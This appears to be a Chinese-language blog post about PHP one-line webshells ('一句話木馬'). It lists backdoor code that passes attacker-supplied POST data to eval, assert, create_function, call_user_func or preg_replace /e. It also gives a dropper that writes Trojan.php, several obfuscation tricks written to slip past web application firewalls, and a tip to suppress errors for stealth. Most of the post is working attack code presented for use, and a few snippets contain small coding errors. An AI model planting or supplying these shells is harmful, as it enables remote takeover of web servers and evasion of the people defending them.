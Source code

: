 ```yaml
---
layout: post
title: "[PHP]一句話木馬"
date: 2018-12-18 08:25:20 +0800
categories: [php,web,security]
tags: [php,web,security]
---
```


## 什麼是一句話木馬

**一句話木馬就是只需要一行代碼的木馬，短短一行代碼，就能做到和大馬相當的功能。為了繞過waf的檢測，一句話木馬出現了無數中變形，但本質是不變的：木馬的函數執行了我們發送的命令。**

**我們如何發送命令，發送的命令如何執行？
我們可以通過`GET` 、`POST` 、`COOKIE`這三種方式向一個網站提交數據，一句話木馬用`$_GET[' ']`、`$_POST[' ']`、`$_COOKIE[' '] `接收我們傳遞的數據，並把接收的數據傳遞給一句話木馬中執行命令的函數，進而執行命令。
所以看到的經典一句話木馬大多都是只有兩個部分，一個是可以執行代碼的函數部分，一個是接收數據的部分。**
例如：
```php
<?php eval(@$_POST['a']); ?>
```
其中eval就是執行命令的函數，`$_POST['a']`就是接收的數據。 eval函數把接收的數據當作PHP代碼來執行。這樣我們就能夠讓插入了一句話木馬的網站執行我們傳遞過去的任意PHP語句。這便是一句話木馬的強大之處。

---

### **使用 其他函數製作一句話木馬**

#### **assert函數**
```php
<?php assert(@$_POST['a']); ?>
```
---

#### **create_function函數**
```php
<?php
$fun = create_function('',$_POST['a']);
$fun();
?>
```

把用戶傳遞的資料形成一個函數fun()，然後再執行fun()

---

#### **call_user_func回調函數**
```php
<?php
@call_user_func(assert,$_POST['a']);
?>
```

`call_user_func`這個函數可以呼叫其它函數，被呼叫的函數是`call_user_func`的第一個函數，被呼叫的函數的參數是`call_user_func`的第二個參數。
<br />
這樣的一個語句也可以完成一句話木馬。一些被waf攔截的木馬可以配合這個函數繞過waf。

---

#### **preg_replace函數**
```php
<?php
@preg_replace("/abcde/e", $_POST['a'], "abcdefg");
?>
```

這個函數原本是利用正則表達式替換符合條件的字符串，但是這個函數有一個功能——可執行命令。這個函數的第一個參數是正則表達式，按照PHP的格式，表達式在兩個"/"之間。如果我們在這個表達式的末尾加上"e"，那麼這個函數的第二個參數就會被當作代碼執行。

---

#### **file_put_contents函數**

#### 利用函數生成木馬

```php
<?php
$test='<?php $a=$_POST["cmd"];assert($a); ?>';
file_put_contents("Trojan.php", $test);
?>
```
函數功能：產生一個文件，第一個參數是文件名，第二個參數是文件的內容。

---

### 讓一句話木馬繞過waf


#### **PHP變數函數**
```php
<?php
$a = "eval";
$a(@$_POST['a']);
?>
```
第三行使用了變數函數$a，變數儲存了函數名eval，便可以直接用變數替代函數名。

---

#### **PHP可變變數**
```php
<?php
$bb="eval";
$a="bb";
$$aa($_POST['a']);
?>
```

看這句就能理解上述語句：`$$aa = $($aa) = $ (‘bb’) = $bb = "eval"`

---

#### **str_replace函數**
```php
<?php
$a=str_replace("Waldo", "", "eWaldoval");
$a(@$_POST['a']);
?>
```

函數功能：在第三個參數中，查找第一個參數，並替換成第二個參數。這裡第二個參數為空字符串，就相當於刪除"Waldo"。

---

#### **base64_decode函數**
```php
<?php
$a=base64_decode("ZXZhbA==")
$a($_POST['a']);
?>
```

這裡是base64解密函數，"ZXZhbA=="是eval的base64加密。

---

### **"."操作符號**
```php 
<?php
$a="e"."v";
$b="a"."l";
$c=$a.$b;
$c($_POST['a']);
?>
```
---

### **parse_str函數**
```php
<?php
$str="a=eval";
parse_str($str);
$a($_POST['a']);
?>
```
執行這個函數後，生成一個變數$a，值為字符串"eval"

---

### **更多技巧...**
`多實戰，多Google！`

上述六種技巧每一種單獨使用都不能繞過waf，但是與 第三大點提到的函數混合起來使用，就可以順利的欺騙waf。
`tips：使用一句話木馬的時候可以在函數前加”@”符，這個符號讓php語句不顯示錯誤信息，增加隱蔽性。`

---

### **再來一個小栗子**
```php
<?php
function fun()
{return $_POST['a'];}
@preg_replace("/test/e",fun(),"test test test");
?>
```
這裡又有一個技巧，創建函數 fun()，返回post中"a"的數據。

資料來源<br />
[PHP之一句話木馬](https://xz.aliyun.com/t/2786)